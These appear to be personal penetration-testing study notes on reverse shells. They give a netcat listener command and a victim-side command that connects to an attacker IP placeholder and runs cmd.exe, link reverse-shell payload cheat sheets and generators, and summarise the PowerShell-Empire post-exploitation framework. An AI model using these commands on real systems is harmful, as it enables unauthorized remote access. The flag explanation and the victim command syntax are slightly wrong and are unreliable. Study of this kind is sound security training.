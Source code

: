 #### Making a Reverse Shell ####
+ On the <mark style="background: #FF5582A6;">attacker machine</mark>, will set up a <mark style="background: #FF5582A6;">listener</mark> 
	+ `nc -nvlp 1234`
		+ Where `c` will execute with the linux terminal 
+ On the <mark style="background: #BBFABBA6;">victim machine</mark>, will <mark style="background: #BBFABBA6;">connect to the attacker</mark> and <mark style="background: #BBFABBA6;">execute the shell</mark> 
	+ `-nc -nv <IP_Attacker> 1234 -e cmd.exe`
	+ Can also be done without netcat, using power shell for example

### Reverse Shell Cheatsheet ###

+ Do not need netcat on the target system, can use all sorts of methods to initiate the connection
	+ [PayloadAllTheThings Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
		+ Contains a large list of what to run, depending on the target OS or circumstance 
		+ For windows, will need to use the Powershell version, or python
		+ For webservers, can use PHP for example
	+ [Reverse Shell Generator](https://www.revshells.com/)
		+ Another option for getting payloads, will specify the following
			+ Attacker IP
			+ Port
			+ Listener type to run on the attacker
			+ Type of shell
			+ For reverse, will specify the OS, and click on that works 
		+ Will copy what is for the target, as well as the attacker 

## Frameworks ##

### The Metasploit Framework (MSF) ###

+ <mark style="background: #FF5582A6;">See more details in the Metasploit course </mark>

### PowerShell-Empire ###

#### PowerShell-Empire ####
+ Uses pure PowerShell exploitation/post-exploitation framework built on cryptological-secure communications and flexible architecture (no enumeration, information gathering, mostly windows targets being exploited)
+ Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and adaptable communication to evade network detection all wrapped up in usability-focused framework
+ PowerShell Empire recently received an update and is now officially supported and maintained by Kali Linux 

#### Starkiller ####
+ In addition to being updated and modernized, BC Security, the company responsible for maintaining the Empire also made a companion called **Starkiller**
+ Starkiller is a GUI Frontend for the Powershell Empire. It is an electron application written in VueJS and provides users with an intuitive way of interacting with Empire 
+ In order to get an understanding of how Empire works, and the components that make up the framework, should use the official documentation [Empire Documentation](https://www.powershellempire.com/) 
+ PowerShell-Empire & Starkiller are both available as packages in the Kali Linux repositories
